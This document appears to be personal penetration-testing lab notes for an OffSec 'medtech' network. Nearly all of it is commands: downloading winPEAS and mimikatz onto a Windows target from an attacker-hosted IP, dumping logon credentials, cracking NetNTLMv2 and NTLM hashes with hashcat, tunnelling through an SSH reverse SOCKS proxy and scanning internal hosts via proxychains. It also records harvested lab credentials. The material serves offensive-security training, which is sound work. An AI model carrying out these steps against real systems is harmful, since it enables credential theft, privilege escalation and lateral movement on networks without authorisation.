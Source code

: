 Get winpeas on target
```
cp /usr/share/peass/winpeas/winPEASx64.exe medtech

# note that you need to be in a temp folder etc to have perms to download
cd C:\TEMP
powershell
iwr -uri http://192.168.45.242:8000/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
### found info
wpad.dmz.medtech.com                  208.91.197.27
jresig:secret
SeImpersonatePrivilege: enabled on current user
```
MEDTECH\joe - is logged in?
WEB02\Administrator
WEB02\offsec - can change password
```
this hash doesn't return anything
```
hashid "WEB02$::MEDTECH:1122334455667788:7c183fcf685951b78303df89e37a7146:0101000000000000a241e7087d19da0113380e2960fd32830000000008003000300000000000000000000000003000003447bf8d2e076bca15cf2a4eebe8e308c592a7dffe959d1f99900303a73185210a00100000000000000000000000000000000000090000000000000000000000"

hashcat --help | grep -i "NetNTLMv2"

hashcat -m 5600 ntlm.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

get mimikatz on 121
```
iwr -uri http://192.168.45.242:8000/mimikatz.exe -Outfile mimikatz.exe
. .\mimikatz.exe
privilege::debug
sekurlsa::logonpasswords

returns 08d7a47a6f9f66b97b1bae4178747494 as joe's hash and Flowers1 as kerberos password

# also returns Flowers1
hashcat -m 1000 joe.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```

scan the internal network. looks like all ports are closed due to a firewall
```
where ssh
ssh.exe -V
ssh -N -R 1080 kali@192.168.45.242

sudo systemctl status ssh
sudo systemctl start ssh

sudo proxychains -q nmap -sT -oN nmap_servers -Pn -p 22,80,445 172.16.214.10-14 172.16.214.82-83
sudo proxychains -q nmap -sT -oN nmap_servers -Pn -F 172.16.214.10-14 172.16.214.82-83
```
